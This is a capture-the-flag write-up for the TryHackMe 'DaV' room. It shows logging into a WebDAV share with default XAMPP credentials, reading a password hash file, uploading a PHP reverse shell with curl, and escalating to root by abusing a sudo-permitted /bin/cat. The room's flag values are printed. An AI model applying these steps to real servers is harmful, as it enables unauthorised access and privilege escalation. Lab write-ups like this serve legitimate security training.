

# DaV

---



---

# Enumeration


Dir Scan


# Exploit

Navigate to `/webdav` path → It would require a creds for accessing


After researching, I found the default creds for login at [http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html)


There is a file name `passwd.dav` → Read it to find any intensive data


Or you can use `curl`

```tsx
┌──(kali㉿kali)-[~/TryHackMe/DaV]
└─$ curl http://10.10.17.2/webdav/passwd.dav --user "wampp:xampp"
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

I save this one for further exploit

# Gain Access

Try to upload a reverse shell to the current location with the following command

```tsx
┌──(kali㉿kali)-[~/TryHackMe/DaV]
└─$ curl http://10.10.17.2/webdav/ --user "wampp:xampp" --upload-file shell.php
```


Great! The file has been uploaded successfully! Let’s check it on the web browser and ready to execute it


Start `Netcat Listener` at the local machine and execute the file by clicking it


Now I am in, look around to locate the `user.txt` file and get the flag

```tsx
$ ls home
merlin  wampp
$ cd /home/merlin
$ ls -l
total 4
-rw-rw-r-- 1 merlin merlin 33 Aug 25  2019 user.txt
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

# Privilege Escalation → root

```tsx
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Surprisingly that the command `sudo -l` could be executed by user `www-data` and it allows the user to execute `/bin/cat` service as `root` permission


Through the `GTFOBins` , I replace the `$LFILE` → `/root/root.txt` and get the root flag

```tsx
$ sudo /bin/cat "/root/root.txt"
101101ddc16b0cdf65ba0b8a7af7afa5
```